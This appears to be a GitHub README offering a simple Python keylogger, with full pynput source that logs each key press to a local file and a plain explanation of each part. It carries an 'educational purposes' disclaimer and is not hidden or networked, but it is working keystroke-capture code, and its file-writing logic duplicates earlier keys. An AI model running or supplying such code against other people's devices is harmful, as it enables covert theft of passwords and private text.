 # Keylogger
Keylogger using Python.
***This is only for educational purposes.***

This keylogger essentially tracks keyboard events, logging pressed keys to a file and providing basic feedback in the console. It stops listening for events when the Escape key is pressed.

import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('Alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        print('Special key {0} pressed'.format(key))

def write_file(keys):
    with open('log.txt', 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            if k.find('space') > 0:
                f.write(' ')
            elif k.find('Key') == -1:
                f.write(k)
            
def on_release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

Here's a detailed explanation of the code:

Import:

    import pynput: Imports the pynput library, providing tools for controlling and monitoring input devices.
    from pynput.keyboard import Key, Listener: Specifically imports the Key class for representing keys on the keyboard and the Listener class for monitoring keyboard events.

Variables:

    keys = []: Initializes an empty list named keys to store pressed keys.

Functions:

    on_press(key): This function is called when a key is pressed:
        It appends the pressed key to the keys list.
        It calls the write_file function to log the pressed keys to a file.
        It tries to print the character of the key using key. char. If it's not an alphanumeric key (e.g., Control, Shift), it prints a message about the special key instead.
    write_file(keys): This function writes the keys in the keys list to a file named log.txt:
        It opens the file in append mode ('a') to add new keys without overwriting existing content.
        It iterates through each key in the list:
            It formats the key for logging by removing single quotes and handling space keys.
            It writes the formatted key to the file, excluding keys represented as Key.<name> (e.g., Key.enter).
    on_release(key): This function is called when a key is released:
        It prints a message indicating the released key.
        If the released key is the Escape key (Key.esc), it returns False to stop the listener.

Main execution:

    with Listener(on_press=on_press, on_release=on_release) as listener:: Creates a keyboard listener object and sets the on_press and on_release functions as callbacks for corresponding events.
    listener.join(): Starts the listener and keeps it running until it's stopped (e.g., by pressing Escape).
